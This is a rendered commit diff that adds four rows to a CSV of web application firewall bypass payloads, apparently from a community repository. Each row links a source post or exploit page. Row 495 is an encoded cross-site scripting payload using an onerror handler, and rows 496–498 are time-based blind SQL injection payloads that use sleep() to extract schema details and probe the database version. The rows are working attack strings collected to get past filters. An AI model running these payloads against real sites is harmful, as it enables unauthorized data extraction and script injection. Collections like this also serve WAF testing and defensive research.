

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added new Bypasses

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
+row 495: https://twitter.com/RootMoksha/status/1770379210705838114 | &#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt | xss
+row 496: https://vulners.com/githubexploit/8292EFB2-7D48-5269-85E0-90F582B0CF95?utm_source=rss&utm_medium=rss&utm_campaign=rss | SELECT CASE WHEN LENGTH((SELECT GROUP_CONCAT({column_name}) FROM {from_where} where table_schema = '{where}'))={i} THEN sleep(3) ELSE sleep(0) END | sqli
+row 497: https://vulners.com/githubexploit/8292EFB2-7D48-5269-85E0-90F582B0CF95?utm_source=rss&utm_medium=rss&utm_campaign=rss | SELECT CASE WHEN LENGTH((SELECT GROUP_CONCAT({column_name}) FROM {from_where} where table_schema = '{where}' and table_name = '{where2}'))={i} THEN sleep(3) ELSE sleep(0) END | sqli
+row 498: https://vulners.com/githubexploit/7A6411F4-C896-52AB-9725-D10DEBF9CD0F?utm_source=rss&utm_medium=rss&utm_campaign=rss | clicks%60%3DIF%28SUBSTRING%28version%28%29%2C1%2C1%29%3D5%2CSLEEP%2810%29%2Cnull%29--%20- | sqli
```
